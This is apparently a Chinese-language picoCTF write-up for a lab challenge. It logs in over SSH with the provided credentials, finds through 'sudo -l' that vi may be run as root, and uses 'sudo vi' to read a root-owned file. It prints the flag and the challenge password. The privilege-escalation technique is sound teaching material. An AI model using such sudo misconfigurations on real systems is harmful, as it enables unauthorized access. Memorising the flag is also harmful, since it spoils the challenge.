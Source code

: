 # Description
Can you read files in the root file? The system admin has provisioned an account for you on the main server: ssh -p 60683 picoplayer@saturn.picoctf.net Password: yX-YQgX-vS Can you login and read the root file?

# 解題
先使用 `ssh` 連線
```bash
ssh -p 60683 picoplayer@saturn.picoctf.net
```
接著使用 `sudo -l` 查看目前這個 user 可用的 sudo 命令
```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
發現可以對 `challenge` 使用 `sudo /usr/bin/vi`，先 `cd` 前往根目錄，並 `ls` 列出所有檔案
```bash
picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls 
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
```
發現 `challenge`，執行
```bash
sudo /usr/bin/vi challenge/
```
看到以下內容
```text
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /challenge
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                             
./
metadata.json
```
發現其下有 `metadata.json` ，再次執行
```bash
sudo /usr/bin/vi challenge/metadata.json
```
得到 flag
```text
{"flag": "picoCTF{uS1ng_v1m_3dit0r_55878b51}", "username": "picoplayer", "password": "yX-YQgX-vS"}

```




<!-- flag -->
所以本題 FLAG 
```text
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```

# 相關學習資源
[sudo](../Info/sudo.md)  